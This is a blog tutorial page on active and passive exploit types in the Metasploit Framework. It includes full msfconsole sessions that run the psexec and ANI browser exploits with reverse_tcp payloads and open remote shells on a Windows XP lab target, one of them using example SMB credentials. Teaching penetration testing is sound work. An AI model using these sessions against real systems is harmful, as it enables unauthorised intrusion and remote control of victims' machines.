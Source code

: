 ```yaml
---
draft: false
title: Exploit Types in Metasploit Framework
date: 2017-05-13T12:34:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Within the Metasploit Framework, all exploit modules are grouped as active and passive.
url: /msf-exploit-types/
featured_image: /images/metasploit.jpg
weight: 60
translationKey: msf-exploit-types
categories:
  - Metasploit Framework
tags:
  - cybersecurity
  - metasploit framework
linkTitle: Exploit Types
keywords:
  - exploit
---
```


Within the Metasploit Framework, all exploit modules are grouped as **active** and **passive**.

## Active Exploit

Active exploits will run on a specific target and continue to run until the process is completed. They stop running when they encounter any error.

For example, the Brute-force module runs until a shell command line is opened on the target computer and stops when it is finished. Since their processes can take a long time to complete, they can be sent to the background using the `-j` parameter.

In the example below, you can see that the ms08_067_netapi exploit is started and sent to the background.

```bash
msf exploit(ms08_067_netapi) > exploit -j
> Exploit running as background job.
msf exploit(ms08_067_netapi) >
```

## Active Exploit Example

In this example, a target computer (192.168.1.100) whose information was obtained through prior discovery is shown setting the necessary variables and starting to work. The psexec exploit and the reverse_tcp payload module are used to open a shell on the target computer.

```bash
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.1.100
RHOST => 192.168.1.100
msf exploit(psexec) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf exploit(psexec) > set LPORT 4444
LPORT => 4444
msf exploit(psexec) > set SMBUSER victim
SMBUSER => victim
msf exploit(psexec) > set SMBPASS s3cr3t
SMBPASS => s3cr3t
msf exploit(psexec) > exploit

> Connecting to the server...
> Started reverse handler
> Authenticating as user 'victim'...
> Uploading payload...
> Created \hikmEeEM.exe...
> Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
> Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
> Obtaining a service manager handle...
> Creating a new service (ciWyCVEp - "MXAVZsCqfRtZwScLdexnD")...
> Closing service handle...
> Opening service...
> Starting the service...
>Removing the service...
> Closing service handle...
> Deleting \hikmEeEM.exe...
> Sending stage (240 bytes)
> Command shell session 1 opened (192.168.1.5:4444 -> 192.168.1.100:1073)

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

## Passive Exploit

Passive Exploits run passively on the local computer (our own computer) and remain listening. They wait for the target computer to somehow connect to the local computer.

Passive exploits almost always focus on clients such as Web browsers, FTP, etc. They can also be used in connections from files sent via e-mail. When a passive exploit runs, it starts waiting. When a user clicks on a link on the site or performs an action, that's when the passive exploit in the listening receives the signal and opens a **shell** on the target.

You can see the list of exploits running in the background and listening by giving the `-l` parameter to the `sessions` command. You can use the `-i` parameter to go to the desired `ID` numbered process from the list.

```bash
msf exploit(ani_loadimage_chunksize) > sessions -l

Active sessions
**================**

Id Description Tunnel
-- ----------- ------
1 Meterpreter 192.168.1.5:52647 -> 192.168.1.100:4444

msf exploit(ani_loadimage_chunksize) > sessions -i 1
> Starting interaction with 1...

meterpreter >
```

## Passive Exploit Example

In the example below, a user is expected to enter a Web page using the loadimage_chunksize exploit and reverse_tcp payload. The `LHOST` variable indicates the IP address of the computer that will listen locally, and the `LPORT` indicates the port number that will listen on the local computer.

```bash
msf > use exploit/windows/browser/ani_loadimage_chunksize
msf exploit(ani_loadimage_chunksize) > set URIPATH /
URIPATH => /
msf exploit(ani_loadimage_chunksize) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(ani_loadimage_chunksize) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf exploit(ani_loadimage_chunksize) > set LPORT 4444
LPORT => 4444
msf exploit(ani_loadimage_chunksize) > exploit
> Exploit running as background job.

> Started reverse handler
> Using URL: <a href="http://0.0.0.0:8080/">http://0.0.0.0:8080/</a>
> Local IP: <a href="http://192.168.1.5:8080/">http://192.168.1.5:8080/</a>
> Server started.
msf exploit(ani_loadimage_chunksize) >
> Attempting to exploit ani_loadimage_chunksize
> Sending HTML page to 192.168.1.100:1077...
> Attempting to exploit ani_loadimage_chunksize
> Sending Windows ANI LoadAniIcon**()** Chunk Size Stack Overflow (HTTP) to 192.168.1.100:1077...
> Sending stage (240 bytes)
> Command shell session 2 opened (192.168.1.5:4444 -> 192.168.1.100:1078)

msf exploit(ani_loadimage_chunksize) > sessions -i 2
> Starting interaction with 2...

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\victim\Desktop>
```

You can send us other topics you want to be explained.

## Video Anlatım

{{< youtube liQEKnvzhQE >}}
